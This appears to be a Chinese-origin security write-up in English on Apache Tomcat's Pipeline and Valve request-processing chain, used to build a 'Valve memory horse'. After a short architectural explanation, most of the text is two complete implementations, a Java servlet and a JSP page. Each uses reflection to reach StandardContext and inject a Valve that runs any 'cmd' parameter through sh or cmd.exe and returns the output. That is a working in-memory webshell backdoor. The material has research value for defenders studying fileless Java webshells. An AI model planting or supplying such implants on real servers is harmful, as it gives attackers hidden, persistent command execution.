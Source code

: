 # Java Security Of Tomcat Valve

## Preparation

​ When I learned about the `Listener` memory horse, the `Filter` memory horse and the `Servlet` memory horse, there is always a common word `Valve` in the call stack at the breakpoint. The invoke method of many methods related to `Valve` is called invoke in the call chain.

![](img/1.png)

`Valve` translates as valve. In `Tomcat`, there is a pipeline (`PipeLine`) and several valves (`Valve`) in the four major container classes `StandardEngine`, `StandardHost`, `StandardContext`, and `StandardWrapper`.

​ `PipeLine` is automatically generated when the container class object is generated, just like the container's logical bus, loading each `Valve` in sequence, and `Valve` is a specific implementation of logic, and calls between each `Valve` are completed through `PipeLine`. When the `PipeLine` is generated, a default `Valve` implementation is generated, which is the `StandardEngineValve`, `StandardHostValve`, `StandardContextValve`, and `StandardWrapperValve` that are often seen in debugging.

​ `Tomcat` uses a chain of responsibilities to implement the processing of client requests in order to achieve the scalability and scalability of each component of the overall architecture. Two interfaces are defined in `Tomcat`: Pipeline` and `Valve`. There is a most basic `Valve` in `Pipeline`, which is always at the end, executed at the end, and encapsulates the specific request processing and output response process. `Pipeline` provides the `addValve` method, which can add a new `Valve` before `BasicValve` and execute it in the order of addition.

![](img/2.png)

​ The four subcontainers of the Tomcat container have basic `Valve` implementations (`StandardEngineValve`, `StandardHostValve`, `StandardContextValve`, `StandardWrapperValve`), which also maintain a `Pipeline` instance (`StandardPipeline`). That is, the request processing can be extended on any level of containers, and the basic implementations of these four `Valve` inherit `ValveBase`.

## Process Analysis

Follow up on the `org.apache.catalina.connector.CoyoteAdapter#service` method in the stack diagram at the beginning of the above call the `org.apache.catalina.connector.CoyoteAdapter#service` method calls the `StandardEngine#getPipline` method to obtain its `Pipeline`, then get the first `Valve` in the `Pipeline` and call the `Valve` invoke` method.

![](img/3.png)

​ Follow up on the invoke method and found that it calls the `org.apache.catalina.core.StandardEngineValve#invoke` method. `StandardEngineValve` inherits `ValveBase`, and you can get `request` and `response` in the `invoke` method.

![](img/4.png)

## Achievement

### Idea

​ The specific ideas for dynamically injecting `Valve` memory horse are as follows:

1. Inherit and construct a malicious `Valve`;
2. Get `StandardContext`;
3. Get the `StandardPipeline` of the current container through `StandardContext`;
4. Call the `StandardContext#addValve` method to add malicious `Valve`.

### Dynamic Registration

#### Servlet

```java
package servlet;

import org.apache.catalina.connector.Request;
import org.apache.catalina.connector.Response;
import org.apache.catalina.core.ApplicationContext;
import org.apache.catalina.core.StandardContext;
import org.apache.catalina.valves.ValveBase;

import javax.servlet.ServletContext;
import javax.servlet.ServletException;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.io.InputStream;
import java.lang.reflect.Field;
import java.util.Scanner;

@WebServlet(name = "ValveMemoryShellServlet", value = "/ValveMemoryShellServlet")
public class ValveMemoryShellServlet extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest request, HttpServletResponse response) throws IOException, ServletException {
        super.doGet(request, response);
    }

    @Override
    protected void doPost(HttpServletRequest request, HttpServletResponse response) {
        try {
            ServletContext servletContext = request.getSession().getServletContext();
            Field context = servletContext.getClass().getDeclaredField("context");
            context.setAccessible(true);
            ApplicationContext applicationContext = (ApplicationContext) context.get(servletContext);
            Field context1 = applicationContext.getClass().getDeclaredField("context");
            context1.setAccessible(true);
            StandardContext standardContext = (StandardContext) context1.get(applicationContext);

            ValveBase valveBase = new ValveBase() {
                @Override
                public void invoke(Request request, Response response) throws IOException {
                    if ((((HttpServletRequest) request).getParameter("cmd") != null) {
                        boolean isLinux = true;
                        String osType = System.getProperty("os.name");
                        if (osType != null && osType.toLowerCase().contains("win")) {
                            isLinux = false;
                        }

                        String[] command = isLinux ? new String[]{"sh", "-c", ((HttpServletRequest) request).getParameter("cmd")} : new String[]{"cmd.exe", "/c", ((HttpServletRequest) request).getParameter("cmd")};
InputStream inputStream = Runtime.getRuntime().exec(command).getInputStream();
                        Scanner scanner = new Scanner(inputStream).useDelimiter("h3rmesk1t");
                        String output = scanner.hasNext() ? scanner.next() : "";
                        ((HttpServletResponse) response).getWriter().write(output);
                        ((HttpServletResponse) response).getWriter().flush();
                    }
                }
            };

            standardContext.getPipeline().addValve(valveBase);
            response.getWriter().write("Valve Inject Successfully...");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

![](img/5.png)

### JSP

```jsp
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="org.apache.catalina.connector.Response" %>
<%@ page import="org.apache.catalina.valves.ValveBase" %>
<%@ page import="java.io.IOException" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>

<%
    ServletContext servletContext = request.getSession().getServletContext();
    Field context = servletContext.getClass().getDeclaredField("context");
    context.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) context.get(servletContext);
    Field context1 = applicationContext.getClass().getDeclaredField("context");
    context1.setAccessible(true);
    StandardContext standardContext = (StandardContext) context1.get(applicationContext);

    ValveBase valveBase = new ValveBase() {
        @Override
        public void invoke(Request request, Response response) throws IOException {
            if ((((HttpServletRequest) request).getParameter("cmd") != null) {
                boolean isLinux = true;
                String osType = System.getProperty("os.name");
                if (osType != null && osType.toLowerCase().contains("win")) {
                    isLinux = false;
                }

                String[] command = isLinux ? new String[]{"sh", "-c", ((HttpServletRequest) request).getParameter("cmd")} : new String[]{"cmd.exe", "/c", ((HttpServletRequest) request).getParameter("cmd")};
                InputStream inputStream = Runtime.getRuntime().exec(command).getInputStream();
                Scanner scanner = new Scanner(inputStream).useDelimiter("h3rmesk1t");
                String output = scanner.hasNext() ? scanner.next() : "";
                ((HttpServletResponse) response).getWriter().write(output);
                ((HttpServletResponse) response).getWriter().flush();
            }
        }
    };

    standardContext.getPipeline().addValve(valveBase);
    response.getWriter().write("Valve Inject Successfully...");
%>
```

![](img/6.png)